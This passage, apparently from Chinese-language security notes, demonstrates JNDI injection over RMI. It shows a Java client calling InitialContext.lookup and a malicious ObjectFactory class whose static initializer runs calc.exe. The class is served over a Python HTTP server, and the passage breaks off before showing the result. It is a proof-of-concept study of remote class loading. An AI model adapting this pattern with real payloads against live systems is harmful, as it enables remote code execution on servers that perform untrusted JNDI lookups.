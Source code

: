 RMIClient

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class Client2 {
    public static void main(String[] args) throws NamingException {
        String u = "rmi://localhost:1099/obj";
        InitialContext initialContext = new InitialContext();
        initialContext.lookup(u);
    }
}
```

起一个test.java

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;

public class test implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

javac手动编译(不要加package, 编译后的class会找不到主类), 再起一个python服务

```
python3 -m http.server 8888
```

效果如下
